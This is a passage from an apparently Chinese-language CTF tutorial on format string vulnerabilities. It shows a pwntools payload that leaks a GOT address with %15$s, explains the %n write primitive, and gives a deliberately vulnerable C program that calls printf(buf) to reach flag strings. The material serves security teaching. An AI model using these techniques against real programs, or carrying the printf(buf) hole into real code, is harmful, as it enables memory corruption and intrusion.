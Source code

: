 这个时候可以发现一个很严重的问题，那就是printf函数的特性。

![pEszfvd.png](https://s21.ax1x.com/2025/03/31/pEszfvd.png)

printf在遇到'\x00'这个字节的时候会截断导致，你无法下一步去解析%s，print就只能单纯的把got表的值打印出来，而打印不出真实地址。（牢黎我啊，真的是什么坑都踩到了  (╥╯^╰╥) ）。

```python
payload = b'aaa%15$s'+p64(printf_got)		#got表放在后面，前面进行栈对齐就可以了。
io.sendline(payload)
#print(io.recvall())
#io.recvuntil(b'aaa')
#addr=u64(io.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
addr=u64(io.recv(6).ljust(8,b"\x00"))
print(addr)
```

这边可能要调整一下保护，但是总体来说，就是这样的。

### 覆盖内存

 上面，我们已经展示了如何利用格式化字符串来泄露栈内存以及任意地址内存，不卖关子现在立刻学习覆盖内存。

这里主要用到的原理是：

```python
#type:
%n:%n 不会输出数据，而是将到目前为止已经输出的字符数写入对应的参数所指向的内存位置。这在格式化字符串漏洞利用中非常重要，可以用来修改内存中的值。
```

还是用一个经典的程序：（费雾黎，只能编写到这个了，和wiki差不多）

```c
#include <stdio.h>
#include <string.h>
int c=0;    
int main() {
    char buf[100];
    int a=0;
    printf("答案就在栈上面,你找找看吧,5203\n");
    printf("a_addr:%p\n", &a);
    printf("c_addr:%p\n", &c);
    scanf("%s", buf);
    printf(buf);  // 保留格式化字符串漏洞
    if(a==1){
        printf("flag{sn0wp34r_lik3_y0u}\n");
    }else if(c==0x12345678){
        printf("flag{sn0wp34r_very_very_lik3_y0u}\n");
    }
    return 0;
}
```

记得看ida，这个好用着呢：

![pEsz4KA.png](https://s21.ax1x.com/2025/03/31/pEsz4KA.png)
